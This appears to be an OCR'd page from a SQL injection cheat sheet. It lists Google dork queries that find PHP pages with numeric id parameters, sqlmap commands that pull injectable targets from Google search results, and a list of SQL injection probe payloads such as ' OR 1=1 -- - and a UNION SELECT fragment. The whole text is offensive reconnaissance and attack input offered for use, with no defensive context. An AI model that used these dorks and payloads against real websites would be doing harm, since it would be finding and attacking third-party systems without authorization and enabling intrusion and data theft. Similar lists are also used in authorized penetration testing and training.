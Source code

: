 ```bash
inurl:product-list.php?id= 
inurl:product.php?sku= 
inurl:store/product.php?productid= 
inurl:products.php?cat= 
inurl:productList.php?cat= 
inurl:product_detail.php?product_id= 
inurl:product.php?pid= 
inurl:view_items.php?id= 
inurl:more_details.php?id= 
inurl:county-facts/diary/vcsgen.php?id= 
inurl:idlechat/message.php?id= 
inurl:podcast/item.php?pid= 
inurl:products.php?act= 
inurl:details.php?prodId= 
inurl:socsci/events/full_details.php?id= 
inurl:ourblog.php?categoryid= 
inurl:mall/more.php?ProdID= 
inurl:archive/get.php?message_id= 
inurl:review/review_form.php?item_id= 
inurl:english/publicproducts.php?groupid= 
inurl:news_and_notices.php?news_id= 
inurl:rounds-detail.php?id=
sqlmap.py -g "DOKR"
sqlmap.py -g "inurl:\".php?id=1\""
```
### Bad character detect
```bash
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
/*…*/ 
+
||
%
AND 1
AND 0
AND true
AND false
```
